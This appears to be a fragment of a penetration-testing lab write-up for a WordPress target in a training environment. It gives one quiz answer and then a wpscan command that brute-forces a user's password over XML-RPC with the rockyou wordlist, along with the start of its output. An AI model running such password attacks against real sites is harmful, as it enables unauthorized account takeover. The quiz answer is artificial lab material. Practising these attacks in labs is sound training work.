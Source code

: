 ![](./attachments/Pasted%20image%2020220806122507.png)

**Answer:** `frank.mclane`

---
### Question 8:
![](./attachments/Pasted%20image%2020220806122031.png)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ wpscan --password-attack xmlrpc -t 20 -U erika -P ~/seclists/Passwords/Leaked-Databases/rockyou.txt --url http://blog.inlanefreight.local/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.inlanefreight.local/ [10.129.2.37]
[+] Started: Sat Aug  6 06:46:08 2022

Interesting Finding(s):

(...)

[+] Performing password attack on Xmlrpc against 1 user/s
```